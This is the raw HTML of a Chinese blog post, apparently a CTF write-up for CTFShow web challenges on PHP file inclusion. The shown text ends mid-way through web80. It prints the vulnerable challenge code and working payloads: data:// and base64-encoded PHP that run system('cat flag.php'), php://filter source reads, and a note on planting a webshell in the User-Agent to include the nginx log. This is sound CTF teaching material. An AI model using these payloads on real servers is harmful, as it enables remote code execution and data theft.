







<!DOCTYPE html><html lang="zh-CN" data-theme="light"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0"><title>CTF之Web习题-CTFShow-web78~web218 | 矢幽武博客</title><meta name="author" content="矢幽武"><meta name="copyright" content="矢幽武"><meta name="format-detection" content="telephone=no"><meta name="theme-color" content="#ffffff"><meta name="description" content="汇总-文件包含1.UA头插入一句话木马，访问&#x2F;var&#x2F;log&#x2F;nginx&#x2F;access.log进行日志文件的包含执行2.php伪协议    data:&#x2F;&#x2F;    php:&#x2F;&#x2F;3.php特性：    # new ctfshow 和 $ctfshow的写法结果相同    new Reflectionclass()  文件包含系列 web78原始信息 &lt;?php&#x2F;*# -*- coding: ut">
<meta property="og:type" content="article">
<meta property="og:title" content="CTF之Web习题-CTFShow-web78~web218">
<meta property="og:url" content="http://example.com/2023/08/13/CTF-web-033/index.html">
<meta property="og:site_name" content="矢幽武博客">
<meta property="og:description" content="汇总-文件包含1.UA头插入一句话木马，访问&#x2F;var&#x2F;log&#x2F;nginx&#x2F;access.log进行日志文件的包含执行2.php伪协议    data:&#x2F;&#x2F;    php:&#x2F;&#x2F;3.php特性：    # new ctfshow 和 $ctfshow的写法结果相同    new Reflectionclass()  文件包含系列 web78原始信息 &lt;?php&#x2F;*# -*- coding: ut">
<meta property="og:locale" content="zh_CN">
<meta property="og:image" content="http://example.com/img/backgroude/b47.jpg">
<meta property="article:published_time" content="2023-08-13T00:19:08.000Z">
<meta property="article:modified_time" content="2024-02-06T02:21:59.382Z">
<meta property="article:author" content="矢幽武">
<meta property="article:tag" content="ctf">
<meta property="article:tag" content="web">
<meta property="article:tag" content="ctfshow">
<meta property="article:tag" content="汇总型-web">
<meta name="twitter:card" content="summary">
<meta name="twitter:image" content="http://example.com/img/backgroude/b47.jpg"><link rel="shortcut icon" href="/img/favicon.ico"><link rel="canonical" href="http://example.com/2023/08/13/CTF-web-033/index.html"><link rel="preconnect" href="//cdn.jsdelivr.net"/><link rel="preconnect" href="//busuanzi.ibruce.info"/><link rel="stylesheet" href="/css/index.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@fortawesome/fontawesome-free/css/all.min.css" media="print" onload="this.media='all'"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@fancyapps/ui/dist/fancybox.min.css" media="print" onload="this.media='all'"><script>const GLOBAL_CONFIG = { 
  root: '/',
  algolia: undefined,
  localSearch: {"path":"/search.xml","preload":true,"languages":{"hits_empty":"找不到您查询的内容：${query}"}},
  translate: undefined,
  noticeOutdate: undefined,
  highlight: {"plugin":"highlighjs","highlightCopy":true,"highlightLang":true,"highlightHeightLimit":false},
  copy: {
    success: '复制成功',
    error: '复制错误',
    noSupport: '浏览器不支持'
  },
  relativeDate: {
    homepage: false,
    post: false
  },
  runtime: '天',
  date_suffix: {
    just: '刚刚',
    min: '分钟前',
    hour: '小时前',
    day: '天前',
    month: '个月前'
  },
  copyright: undefined,
  lightbox: 'fancybox',
  Snackbar: undefined,
  source: {
    justifiedGallery: {
      js: 'https://cdn.jsdelivr.net/npm/flickr-justified-gallery/dist/fjGallery.min.js',
      css: 'https://cdn.jsdelivr.net/npm/flickr-justified-gallery/dist/fjGallery.min.css'
    }
  },
  isPhotoFigcaption: false,
  islazyload: false,
  isAnchor: false,
  percent: {
    toc: true,
    rightside: false,
  }
}</script><script id="config-diff">var GLOBAL_CONFIG_SITE = {
  title: 'CTF之Web习题-CTFShow-web78~web218',
  isPost: true,
  isHome: false,
  isHighlightShrink: false,
  isToc: true,
  postUpdate: '2024-02-06 10:21:59'
}</script><noscript><style type="text/css">
  #nav {
    opacity: 1
  }
  .justified-gallery img {
    opacity: 1
  }

  #recent-posts time,
  #post-meta time {
    display: inline !important
  }
</style></noscript><script>(win=>{
    win.saveToLocal = {
      set: function setWithExpiry(key, value, ttl) {
        if (ttl === 0) return
        const now = new Date()
        const expiryDay = ttl * 86400000
        const item = {
          value: value,
          expiry: now.getTime() + expiryDay,
        }
        localStorage.setItem(key, JSON.stringify(item))
      },

      get: function getWithExpiry(key) {
        const itemStr = localStorage.getItem(key)

        if (!itemStr) {
          return undefined
        }
        const item = JSON.parse(itemStr)
        const now = new Date()

        if (now.getTime() > item.expiry) {
          localStorage.removeItem(key)
          return undefined
        }
        return item.value
      }
    }
  
    win.getScript = url => new Promise((resolve, reject) => {
      const script = document.createElement('script')
      script.src = url
      script.async = true
      script.onerror = reject
      script.onload = script.onreadystatechange = function() {
        const loadState = this.readyState
        if (loadState && loadState !== 'loaded' && loadState !== 'complete') return
        script.onload = script.onreadystatechange = null
        resolve()
      }
      document.head.appendChild(script)
    })
  
    win.getCSS = (url,id = false) => new Promise((resolve, reject) => {
      const link = document.createElement('link')
      link.rel = 'stylesheet'
      link.href = url
      if (id) link.id = id
      link.onerror = reject
      link.onload = link.onreadystatechange = function() {
        const loadState = this.readyState
        if (loadState && loadState !== 'loaded' && loadState !== 'complete') return
        link.onload = link.onreadystatechange = null
        resolve()
      }
      document.head.appendChild(link)
    })
  
      win.activateDarkMode = function () {
        document.documentElement.setAttribute('data-theme', 'dark')
        if (document.querySelector('meta[name="theme-color"]') !== null) {
          document.querySelector('meta[name="theme-color"]').setAttribute('content', '#0d0d0d')
        }
      }
      win.activateLightMode = function () {
        document.documentElement.setAttribute('data-theme', 'light')
        if (document.querySelector('meta[name="theme-color"]') !== null) {
          document.querySelector('meta[name="theme-color"]').setAttribute('content', '#ffffff')
        }
      }
      const t = saveToLocal.get('theme')
    
          if (t === 'dark') activateDarkMode()
          else if (t === 'light') activateLightMode()
        
      const asideStatus = saveToLocal.get('aside-status')
      if (asideStatus !== undefined) {
        if (asideStatus === 'hide') {
          document.documentElement.classList.add('hide-aside')
        } else {
          document.documentElement.classList.remove('hide-aside')
        }
      }
    
    const detectApple = () => {
      if(/iPad|iPhone|iPod|Macintosh/.test(navigator.userAgent)){
        document.documentElement.classList.add('apple')
      }
    }
    detectApple()
    })(window)</script><link rel="stylesheet" href="/css/background.css"><link rel="stylesheet" href="/css/mycss.css"><link rel="stylesheet" href="/css/universe.css"><link rel="stylesheet" href="/css/custom.css"  media="defer" onload="this.media='all'"><svg aria-hidden="true" style="position:absolute; overflow:hidden; width:0; height:0"><symbol id="icon-sun" viewBox="0 0 1024 1024"><path d="M960 512l-128 128v192h-192l-128 128-128-128H192v-192l-128-128 128-128V192h192l128-128 128 128h192v192z" fill="#FFD878" p-id="8420"></path><path d="M736 512a224 224 0 1 0-448 0 224 224 0 1 0 448 0z" fill="#FFE4A9" p-id="8421"></path><path d="M512 109.248L626.752 224H800v173.248L914.752 512 800 626.752V800h-173.248L512 914.752 397.248 800H224v-173.248L109.248 512 224 397.248V224h173.248L512 109.248M512 64l-128 128H192v192l-128 128 128 128v192h192l128 128 128-128h192v-192l128-128-128-128V192h-192l-128-128z" fill="#4D5152" p-id="8422"></path><path d="M512 320c105.888 0 192 86.112 192 192s-86.112 192-192 192-192-86.112-192-192 86.112-192 192-192m0-32a224 224 0 1 0 0 448 224 224 0 0 0 0-448z" fill="#4D5152" p-id="8423"></path></symbol><symbol id="icon-moon" viewBox="0 0 1024 1024"><path d="M611.370667 167.082667a445.013333 445.013333 0 0 1-38.4 161.834666 477.824 477.824 0 0 1-244.736 244.394667 445.141333 445.141333 0 0 1-161.109334 38.058667 85.077333 85.077333 0 0 0-65.066666 135.722666A462.08 462.08 0 1 0 747.093333 102.058667a85.077333 85.077333 0 0 0-135.722666 65.024z" fill="#FFB531" p-id="11345"></path><path d="M329.728 274.133333l35.157333-35.157333a21.333333 21.333333 0 1 0-30.165333-30.165333l-35.157333 35.157333-35.114667-35.157333a21.333333 21.333333 0 0 0-30.165333 30.165333l35.114666 35.157333-35.114666 35.157334a21.333333 21.333333 0 1 0 30.165333 30.165333l35.114667-35.157333 35.157333 35.157333a21.333333 21.333333 0 1 0 30.165333-30.165333z" fill="#030835" p-id="11346"></path></symbol></svg><!-- hexo injector head_end start --><link rel="stylesheet" href="https://cdn.cbd.int/hexo-butterfly-clock-anzhiyu/lib/clock.min.css" /><!-- hexo injector head_end end --><meta name="generator" content="Hexo 5.4.2"></head><body><div id="web_bg"></div><div id="sidebar"><div id="menu-mask"></div><div id="sidebar-menus"><div class="avatar-img is-center"></div><div class="sidebar-site-data site-data is-center"><a href="/archives/"><div class="headline">文章</div><div class="length-num">200</div></a><a href="/tags/"><div class="headline">标签</div><div class="length-num">57</div></a><a href="/categories/"><div class="headline">分类</div><div class="length-num">30</div></a></div><hr/><div class="menus_items"><div class="menus_item"><a class="site-page" href="/"><i class="fa-fw fas fa-home"></i><span> 主页</span></a></div><div class="menus_item"><a class="site-page group" href="javascript:void(0);"><i class="fa-fw fa fa-graduation-cap"></i><span> 导航</span><i class="fas fa-chevron-down"></i></a><ul class="menus_item_child"><li><a class="site-page child" href="/categories/"><i class="fa-fw fa fa-archive"></i><span> 分类</span></a></li><li><a class="site-page child" href="/tags/"><i class="fa-fw fa fa-tags"></i><span> 标签</span></a></li><li><a class="site-page child" href="/archives/"><i class="fa-fw fa fa-folder-open"></i><span> 归档</span></a></li></ul></div><div class="menus_item"><a class="site-page group" href="javascript:void(0);"><i class="fa-fw fas fa-list"></i><span> 资源</span><i class="fas fa-chevron-down"></i></a><ul class="menus_item_child"><li><a class="site-page child" href="/hack/"><i class="fa-fw fas fa-keyboard"></i><span> 暗链</span></a></li><li><a class="site-page child" href="/beout/"><i class="fa-fw fa fa-camera-retro"></i><span> 杂社</span></a></li><li><a class="site-page child" href="/target/"><i class="fa-fw fas fa-crosshairs"></i><span> 目标</span></a></li><li><a class="site-page child" href="/movies/"><i class="fa-fw fas fa-video"></i><span> 影视</span></a></li></ul></div><div class="menus_item"><a class="site-page" href="/links/"><i class="fa-fw fa fa-link"></i><span> 友链</span></a></div><div class="menus_item"><a class="site-page" href="/comment/"><i class="fa-fw fa fa-paper-plane"></i><span> 留言板</span></a></div><div class="menus_item"><a class="site-page" href="/about/"><i class="fa-fw fas fa-heart"></i><span> 关于笔者</span></a></div></div></div></div><div class="post" id="body-wrap"><header class="post-bg" id="page-header" style="background-image: url('/img/backgroude/b47.jpg')"><nav id="nav"><span id="blog-info"><a href="/" title="矢幽武博客"><span class="site-name">矢幽武博客</span></a></span><div id="menus"><div id="search-button"><a class="site-page social-icon search" href="javascript:void(0);"><i class="fas fa-search fa-fw"></i><span> 搜索</span></a></div><div class="menus_items"><div class="menus_item"><a class="site-page" href="/"><i class="fa-fw fas fa-home"></i><span> 主页</span></a></div><div class="menus_item"><a class="site-page group" href="javascript:void(0);"><i class="fa-fw fa fa-graduation-cap"></i><span> 导航</span><i class="fas fa-chevron-down"></i></a><ul class="menus_item_child"><li><a class="site-page child" href="/categories/"><i class="fa-fw fa fa-archive"></i><span> 分类</span></a></li><li><a class="site-page child" href="/tags/"><i class="fa-fw fa fa-tags"></i><span> 标签</span></a></li><li><a class="site-page child" href="/archives/"><i class="fa-fw fa fa-folder-open"></i><span> 归档</span></a></li></ul></div><div class="menus_item"><a class="site-page group" href="javascript:void(0);"><i class="fa-fw fas fa-list"></i><span> 资源</span><i class="fas fa-chevron-down"></i></a><ul class="menus_item_child"><li><a class="site-page child" href="/hack/"><i class="fa-fw fas fa-keyboard"></i><span> 暗链</span></a></li><li><a class="site-page child" href="/beout/"><i class="fa-fw fa fa-camera-retro"></i><span> 杂社</span></a></li><li><a class="site-page child" href="/target/"><i class="fa-fw fas fa-crosshairs"></i><span> 目标</span></a></li><li><a class="site-page child" href="/movies/"><i class="fa-fw fas fa-video"></i><span> 影视</span></a></li></ul></div><div class="menus_item"><a class="site-page" href="/links/"><i class="fa-fw fa fa-link"></i><span> 友链</span></a></div><div class="menus_item"><a class="site-page" href="/comment/"><i class="fa-fw fa fa-paper-plane"></i><span> 留言板</span></a></div><div class="menus_item"><a class="site-page" href="/about/"><i class="fa-fw fas fa-heart"></i><span> 关于笔者</span></a></div></div><div id="toggle-menu"><a class="site-page" href="javascript:void(0);"><i class="fas fa-bars fa-fw"></i></a></div></div></nav><div id="post-info"><h1 class="post-title">CTF之Web习题-CTFShow-web78~web218</h1><div id="post-meta"><div class="meta-firstline"><span class="post-meta-date"><i class="far fa-calendar-alt fa-fw post-meta-icon"></i><span class="post-meta-label">发表于</span><time class="post-meta-date-created" datetime="2023-08-13T00:19:08.000Z" title="发表于 2023-08-13 08:19:08">2023-08-13</time><span class="post-meta-separator">|</span><i class="fas fa-history fa-fw post-meta-icon"></i><span class="post-meta-label">更新于</span><time class="post-meta-date-updated" datetime="2024-02-06T02:21:59.382Z" title="更新于 2024-02-06 10:21:59">2024-02-06</time></span><span class="post-meta-categories"><span class="post-meta-separator">|</span><i class="fas fa-inbox fa-fw post-meta-icon"></i><a class="post-meta-categories" href="/categories/CTF%E8%B5%9B%E9%A2%98/">CTF赛题</a><i class="fas fa-angle-right post-meta-separator"></i><i class="fas fa-inbox fa-fw post-meta-icon"></i><a class="post-meta-categories" href="/categories/CTF%E8%B5%9B%E9%A2%98/CTFSHOW/">CTFSHOW</a></span></div><div class="meta-secondline"><span class="post-meta-separator">|</span><span class="post-meta-wordcount"><i class="far fa-file-word fa-fw post-meta-icon"></i><span class="post-meta-label">字数总计:</span><span class="word-count">53.2k</span><span class="post-meta-separator">|</span><i class="far fa-clock fa-fw post-meta-icon"></i><span class="post-meta-label">阅读时长:</span><span>261分钟</span></span><span class="post-meta-separator">|</span><span class="post-meta-pv-cv" id="" data-flag-title="CTF之Web习题-CTFShow-web78~web218"><i class="far fa-eye fa-fw post-meta-icon"></i><span class="post-meta-label">阅读量:</span><span id="busuanzi_value_page_pv"><i class="fa-solid fa-spinner fa-spin"></i></span></span></div></div></div></header><main class="layout" id="content-inner"><div id="post"><article class="post-content" id="article-container"><h1 id="汇总-文件包含"><a href="#汇总-文件包含" class="headerlink" title="汇总-文件包含"></a>汇总-文件包含</h1><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">1</span>.UA头插入一句话木马，访问/<span class="keyword">var</span>/log/nginx/access.log进行日志文件的包含执行</span><br><span class="line"><span class="number">2</span>.php伪协议</span><br><span class="line">    data:<span class="comment">//</span></span><br><span class="line">    php:<span class="comment">//</span></span><br><span class="line"><span class="number">3</span>.php特性：</span><br><span class="line">    <span class="comment"># new ctfshow 和 $ctfshow的写法结果相同</span></span><br><span class="line">    <span class="keyword">new</span> <span class="title class_">Reflectionclass</span>()</span><br></pre></td></tr></table></figure>

<p>文件包含系列</p>
<h1 id="web78"><a href="#web78" class="headerlink" title="web78"></a>web78</h1><h2 id="原始信息"><a href="#原始信息" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"> <span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-16 10:52:43</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-09-16 10:54:20</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$file</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$file</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题"><a href="#解题" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 很初级的任意文件包含，怎么实现都行</span></span><br><span class="line">GET:</span><br><span class="line">    ?file=data:<span class="comment">//text/plain,&lt;?=var_dump(scandir(&#x27;.&#x27;));?&gt;</span></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">    <span class="keyword">array</span>(<span class="number">4</span>) &#123; [<span class="number">0</span>]=&gt; <span class="keyword">string</span>(<span class="number">1</span>) <span class="string">&quot;.&quot;</span> [<span class="number">1</span>]=&gt; <span class="keyword">string</span>(<span class="number">2</span>) <span class="string">&quot;..&quot;</span> [<span class="number">2</span>]=&gt; <span class="keyword">string</span>(<span class="number">8</span>) <span class="string">&quot;flag.php&quot;</span> [<span class="number">3</span>]=&gt; <span class="keyword">string</span>(<span class="number">9</span>) <span class="string">&quot;index.php&quot;</span> &#125; </span><br><span class="line"></span><br><span class="line">GET:</span><br><span class="line">    ?file=data:<span class="comment">//text/plain,&lt;?=system(&#x27;cat flag.php&#x27;);?&gt;</span></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">    <span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;318ad708-8193-46c0-9d70-8395131fc0a1&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>官方WP</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">/?file=php:<span class="comment">//filter/convert.base64-encode/resource=flag.php</span></span><br></pre></td></tr></table></figure>

<h1 id="web79"><a href="#web79" class="headerlink" title="web79"></a>web79</h1><h2 id="原始信息-1"><a href="#原始信息-1" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$file</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;php&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$file</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-1"><a href="#解题-1" class="headerlink" title="解题"></a>解题</h2><p>替换掉字符串php，换个方式查flag。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 查了下，目录结构没有变化</span></span><br><span class="line">GET:</span><br><span class="line">    ?file=data:<span class="comment">//text/plain,&lt;?=var_dump(scandir(&#x27;.&#x27;));?&gt;</span></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">    <span class="keyword">array</span>(<span class="number">4</span>) &#123; [<span class="number">0</span>]=&gt; <span class="keyword">string</span>(<span class="number">1</span>) <span class="string">&quot;.&quot;</span> [<span class="number">1</span>]=&gt; <span class="keyword">string</span>(<span class="number">2</span>) <span class="string">&quot;..&quot;</span> [<span class="number">2</span>]=&gt; <span class="keyword">string</span>(<span class="number">8</span>) <span class="string">&quot;flag.php&quot;</span> [<span class="number">3</span>]=&gt; <span class="keyword">string</span>(<span class="number">9</span>) <span class="string">&quot;index.php&quot;</span> &#125; </span><br><span class="line"></span><br><span class="line"><span class="comment">// </span></span><br><span class="line">GET:</span><br><span class="line">    ?file=data:<span class="comment">//text/plain;base64,PD89c3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==</span></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">    <span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;318ad708-8193-46c0-9d70-8395131fc0a1&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>官方WP</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?file=data:<span class="comment">//text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=</span></span><br><span class="line">PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===&gt; <span class="meta">&lt;?php</span> <span class="title function_ invoke__">system</span>(<span class="string">&#x27;cat flag.php&#x27;</span>);</span><br></pre></td></tr></table></figure>

<h1 id="web80"><a href="#web80" class="headerlink" title="web80"></a>web80</h1><h2 id="原始信息-2"><a href="#原始信息-2" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$file</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;php&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;data&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="keyword">include</span>(<span 